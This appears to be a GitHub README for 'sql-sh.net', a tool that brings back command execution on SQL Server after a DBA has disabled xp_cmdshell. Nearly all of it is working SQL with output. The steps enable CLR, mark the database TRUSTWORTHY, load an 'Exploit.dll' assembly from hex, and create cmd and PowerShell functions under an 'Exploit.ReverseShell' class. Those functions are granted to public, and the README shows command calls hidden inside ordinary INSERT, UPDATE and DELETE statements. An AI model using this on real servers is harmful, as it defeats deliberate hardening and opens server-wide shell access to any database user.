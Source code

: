 # sql-sh.net

Simple cmd/powershell "xp_cmdshell" replacement using SQL Server Common Language Runtime (CLR) support.  Usefull if the DBA disabled or deleted xp_cmdshell, but your connection to the dabase is running as a dbowner, or a sysadmin.

### SQL Server Prerequisites

rldr: If the server isn't setup right, and you're not connected as a sysadmin user, then this method won't work.

SQL Server 2005 introduced the integration of the CLR component of the .NET Framework.  This allows you to run .NET based application within SQL Server with the intent of expanding the functionality of SQL Server for applications.  In order to use the CLR within SQL Server, the server must be configured first, this may have already been done by some applications.

To see if CLR is already available, run ``sp_configure 'clr enabled'``.

```sql
sp_configure 'clr enabled';

name                                minimum     maximum     config_value run_value
----------------------------------- ----------- ----------- ------------ -----------
clr enabled                         0           1           0            0
```

In this case, CLR is disabled, so we need to enable it and then run ``RECONFIGURE`` to apply the change. (requires sysadmin or serveradmin role)

```sql
sp_configure 'clr enabled', 1;

Configuration option 'clr enabled' changed from 0 to 1. Run the RECONFIGURE statement to install.

RECONFIGURE;

Command(s) completed successfully.

sp_configure 'clr enabled'

name                                minimum     maximum     config_value run_value
----------------------------------- ----------- ----------- ------------ -----------
clr enabled                         0           1           1            1
```

Ok, the server is setup, now to set the db as trusted for the .NET assembly.

```sql
SELECT name, is_trustworthy_on FROM sys.databases;

name                                is_trustworthy_on
----------------------------------- -----------------
master                              0
tempdb                              0
model                               0
msdb                                1
AdventureWorks2016                  1
```

If the current database isn't listed with 1 for is_trustworthy_on, run the following to attempt to fix it (requires sysadmin role):
```sql
ALTER DATABASE [AdventureWorks2016] SET Trustworthy ON;
```

### Installing

First, the assembly needs to be added.  Normally you need to install assemblys via an exe/dll on the filesystem, but SQL Server allows you to just give it the ascii hex of the contents.  ;)  Replace the "DATEDBEEF" with the hex contents of the Exploit/bin/Release/Exploit.dll file.

```sql
CREATE ASSEMBLY [Sqlsh] FROM 0xDEADBEEF WITH PERMISSION_SET=EXTERNAL_ACCESS;
```

Then, the assembly needs to be linked to a SQL function.

```sql
CREATE FUNCTION dbo.sqlsh_cmd(@cmd NVARCHAR(max)) RETURNS NVARCHAR(max) EXTERNAL NAME [Sqlsh].[Exploit.ReverseShell].[Cmd]
CREATE FUNCTION dbo.sqlsh_psh(@cmd NVARCHAR(max)) RETURNS NVARCHAR(max) EXTERNAL NAME [Sqlsh].[Exploit.ReverseShell].[Powershell]
GRANT EXECUTE ON dbo.sqlsh_cmd TO public;
GRANT EXECUTE ON dbo.sqlsh_psh TO public;
```

### Examples

Functions are allowed in a lot of sql contexts, so there are many ways to run a script:

```sql
SELECT dbo.sqlsh_cmd('whoami');

INSERT INTO sometable (col1, col2, col3) VALUES (1, 'something', dbo.sqlsh_cmd('whoami'));

UPDATE sometable SET col3 = dbo.sqlsh_cmd('whoami') WHERE col2 = 'something';

DELETE FROM sometable WHERE col3 = dbo.sqlsh_cmd('whoami');
```

### References for SQL CLR

- https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/sql-server-common-language-runtime-integration
- https://docs.microsoft.com/en-us/sql/t-sql/statements/create-assembly-transact-sql?view=sql-server-2017
- https://docs.microsoft.com/en-us/sql/t-sql/statements/create-function-transact-sql?view=sql-server-2017



